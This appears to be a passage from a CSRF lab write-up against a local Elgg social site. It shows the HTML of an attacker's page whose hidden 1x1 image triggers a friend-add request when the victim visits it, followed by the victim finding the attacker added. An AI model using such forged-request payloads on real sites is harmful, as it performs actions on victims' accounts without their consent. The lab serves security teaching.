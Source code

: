 * Boby creates the malicious web page as following, and sends the link of the website `http://www.csrflabattacker.com` to Alice. 

  ```html
  <html>
      <body>
          <h1> This page lets Alice add Boby as a friend.</h1>
          <img src="http://www.csrflabelgg.com/action/friends/add?friend=43" 
               alt = "image" width="1" height="1" />
      </body>
  </html>
  ```

  ![1587990359809](assets/1587990359809.png)

* Alice clicks the link and finds out Bob is added by her automatically
